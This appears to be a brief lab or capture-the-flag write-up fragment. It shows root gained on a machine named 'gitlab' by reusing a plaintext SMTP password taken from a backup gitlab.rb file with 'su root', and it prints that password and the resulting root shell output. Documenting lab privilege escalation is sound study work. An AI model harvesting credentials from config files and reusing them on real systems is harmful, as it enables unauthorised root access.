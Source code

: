 # Got root@gitlab shell
Got root@gitlab using `/opt/backup/gitlab.rb:gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"` as password
```bash
git@gitlab:/tmp$ su root
su root
Password: wW59U!ZKMbG9+*#h

root@gitlab:/tmp# id
id
uid=0(root) gid=0(root) groups=0(root)
root@gitlab:/tmp# whoami
whoami
root
root@gitlab:/tmp#
```
